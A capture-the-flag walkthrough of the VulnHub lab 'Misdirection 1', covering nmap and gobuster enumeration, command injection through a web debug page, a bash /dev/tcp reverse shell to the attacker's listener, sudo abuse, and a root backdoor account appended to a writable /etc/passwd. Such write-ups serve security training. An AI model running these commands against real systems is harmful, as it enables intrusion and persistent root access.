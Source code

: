 ```yaml
---
layout: post
title: VulnHub - Misdirection 1
---
```


**Description:** The purpose of this machine is to grant OSCP students further develop, strengthen, and practice their methodology for the exam.

**Author:** FalconSpy

**Operating System:** Linux

**Aim:** To get root shell.

**Download:** [https://www.vulnhub.com/entry/misdirection-1,371/](https://www.vulnhub.com/entry/misdirection-1,371/)

## Information Gathering
### Host Discovery
We enumerate the local network to find the target machine.

```bash
root@kali:~$ nmap -sn -n 192.168.179.1/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-13 19:32 -05
Nmap scan report for 192.168.179.141
Host is up (0.00078s latency).
MAC Address: 00:0C:29:10:9B:9B (VMware)
Nmap scan report for 192.168.179.254
Host is up (0.00017s latency).
MAC Address: 00:50:56:E9:4A:73 (VMware)
Nmap scan report for 192.168.179.1
Host is up.
```

### Port Scanning
Located the target, I proceed to perform a TCP port scan for all ports with nmap.

```bash
root@kali:~$ nmap -T4 -p1-65535 -vv -n 192.168.179.141 -oG tcp-all-ports.txt
...
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 64
80/tcp   open  http       syn-ack ttl 64
3306/tcp open  mysql      syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
MAC Address: 00:0C:29:10:9B:9B (VMware)
...
```

### Service Enumeration
Then I do the service enumeration to the open TCP ports.

```bash
root@kali:~$ nmap -sV -sC -p22,80,3306,8080 -vv -n 192.168.179.141 -oN service-enum.txt
...
PORT     STATE SERVICE REASON         VERSION                                                                                                                      
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                 
| ssh-hostkey:                                                                                                                                                     
|   2048 ec:bb:44:ee:f3:33:af:9f:a5:ce:b5:77:61:45:e4:36 (RSA)                                                                                                     
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkS5yl+Dpb7vsMGbzAHXBYrVSUNTh4kYGh8zajM3ZujG0XHLvgkW7xJ6F/meai9IrCB5gTq7+tTsn+fqNk0cAZugz4h+vwm5ekXe5szPPHNxNUlKuNAQ0Rch9k7
jT/2pWjtsE5iF6yFlh1UA2vBKqrTWVU5vrGWswdFRMWICKWiFXwl1Tv93STPsKHYoVbq74v2y1mVOLn+3JNMmRNCBFqh8Z2x+1DTep0YY8vIV325iRK5ROKCJAPeyX33uoxQ/cYrdPIS+Whs9QX0C+W343Hf2Ypq93h
3/g3NNm54LvZdE6X2vTUcUHGdvK2gU+dWQOiDhCpMDv3wiEAwGlf87P5                                                                                                           
|   256 67:7b:cb:4e:95:1b:78:08:8d:2a:b1:47:04:8d:62:87 (ECDSA)                                                                                                    
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM+YEivOAqHPDlFWduSuOjAjuJtfC9v/KW2uYB85gxQuibGJQZhFPcxwPEUf7UvQ/a5fr/keKYF2Kdld6gO44jY= 
|   256 59:04:1d:25:11:6d:89:a3:6c:6d:e4:e3:d2:3c:da:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFHxbfiqinvu3cV7JoKrOF3w64zk+0N0h+/2nu+Z20Mk
80/tcp   open  http    syn-ack ttl 64 Rocket httpd 1.2.6 (Python 2.7.15rc1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
|_http-title: 502 Proxy Error
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
8080/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:10:9B:9B (VMware)
...
```

### Web Enumeration
Poked around the web service on port 80 I didn't found nothing interesting.

![](/assets/images/misdirection/screenshot-1.png)

So I'm heading to enumerate the web page on port 8080, but at a  glance I can't find anything, so I run gobuster to find hidden web directories and files.

![](/assets/images/misdirection/screenshot-2.png)

```bash
root@kali:~$ gobuster dir -u http://192.168.179.141:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,txt,sql -e
...
http://192.168.179.141:8080/index.html           (Status: 200) [Size: 10918]
http://192.168.179.141:8080/images               (Status: 301) [Size: 326] [--> http://192.168.179.141:8080/images/]
http://192.168.179.141:8080/help                 (Status: 301) [Size: 324] [--> http://192.168.179.141:8080/help/]  
http://192.168.179.141:8080/scripts              (Status: 301) [Size: 327] [--> http://192.168.179.141:8080/scripts/]
http://192.168.179.141:8080/css                  (Status: 301) [Size: 323] [--> http://192.168.179.141:8080/css/]    
http://192.168.179.141:8080/wordpress            (Status: 301) [Size: 329] [--> http://192.168.179.141:8080/wordpress/]
http://192.168.179.141:8080/development          (Status: 301) [Size: 331] [--> http://192.168.179.141:8080/development/]
http://192.168.179.141:8080/manual               (Status: 301) [Size: 326] [--> http://192.168.179.141:8080/manual/]     
http://192.168.179.141:8080/js                   (Status: 301) [Size: 322] [--> http://192.168.179.141:8080/js/]         
http://192.168.179.141:8080/shell                (Status: 301) [Size: 325] [--> http://192.168.179.141:8080/shell/]      
http://192.168.179.141:8080/debug                (Status: 301) [Size: 325] [--> http://192.168.179.141:8080/debug/]
...
```

Checking the **debug** directorie I find a script that allows run system commands.

![](/assets/images/misdirection/screenshot-3.png)

## Exploitation
### Command Injection
**Getting a reverse shell**

Then we first set up a netcat listener and execute the the following instruction:

```bash
bash -c "/bin/bash -i >& /dev/tcp/192.168.179.1/443 0>&1"
```
![](/assets/images/misdirection/screenshot-4.png)

And we get a reverse shell, after enumerating the sudo permissions I see that the bash command is possible execute it without password as the brexit user.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.141] 34318
bash: cannot set terminal process group (1047): Inappropriate ioctl for device
bash: no job control in this shell
www-data@misdirection:/var/www/html/debug$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@misdirection:/var/www/html/debug$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
```
After to execute the bash command as the brexit user, we get a bash session and spawn a TTY shell. 

```bash
www-data@misdirection:/var/www/html/debug$ sudo -u brexit /bin/bash
python -c 'import pty;pty.spawn("/bin/bash")'
brexit@misdirection:~$ uname -a
Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation
### Writable /etc/passwd File
Enumerating the system I managed to identify that the **passwd** file has write permissions for the brexit user.

```bash
brexit@misdirection:/tmp$ ls -la /etc/passwd
-rwxrwxr-- 1 root brexit 1617 Jun  1  2019 /etc/passwd
```
In our attacking machine we generate a password hash with openssl.

```bash
root@kali:~$ openssl passwd -1 get.r00t
$1$7Stc2cvP$1EtnNyONHtdDuHw2C9rNb1
```
Then we redirect our s4rgas user with the uid and gid set to 0 to the **passwd** file, and we switch to the new user with root privileges.

```bash
brexit@misdirection:/tmp$ echo 's4rgaz:$1$7Stc2cvP$1EtnNyONHtdDuHw2C9rNb1:0:0:root:/root:/bin/bash' >> /etc/passwd
brexit@misdirection:/tmp$ su s4rgaz
Password: 
root@misdirection:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```
